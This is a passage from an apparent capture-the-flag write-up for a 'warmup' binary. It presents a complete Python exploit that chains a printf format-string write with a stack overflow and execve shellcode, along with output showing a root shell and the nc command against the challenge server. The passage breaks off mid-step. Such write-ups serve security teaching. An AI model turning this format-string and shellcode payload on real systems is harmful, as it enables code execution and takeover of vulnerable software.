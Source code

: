 ```
./exploit.py | ./warmup
```
```
... 58600+ spaces
f7dcfa83    Trace/breakpoint trap
```
The ~58600 spaces and `f7dcfa83` is from the `printf` format exploit.

`Trace/breakpoint trap` again, is from `0xCC` and is the expected output.

Lastly, go shopping for some shellcode.

> I used code from here [http://shell-storm.org/shellcode/files/shellcode-905.php](http://shell-storm.org/shellcode/files/shellcode-905.php).

Final `exploit.py`:

```
#!/usr/bin/env python

import struct

payload = ""
payload += "%58622x "
payload += "%08$n   "
payload += struct.pack("<Q",0x601000)
overflow_len=264
payload +=  "A"*(overflow_len-len(payload))
payload += struct.pack("<Q",0x601000)
payload += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

print payload
```

Local test:

```
(./exploit.py; cat) | ./warmup
```
```
... lots of space
f7dcfa83
```

The combination of `cat` and the shellcode has produced an _interactive_ shell, test with `id`:

```
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```

#### Get the Flag

```
(./exploit.py; cat) | nc nothing.chal.ctf.westerns.tokyo 10001
```
```
... lots of space
8b5d5a83
```
Type:
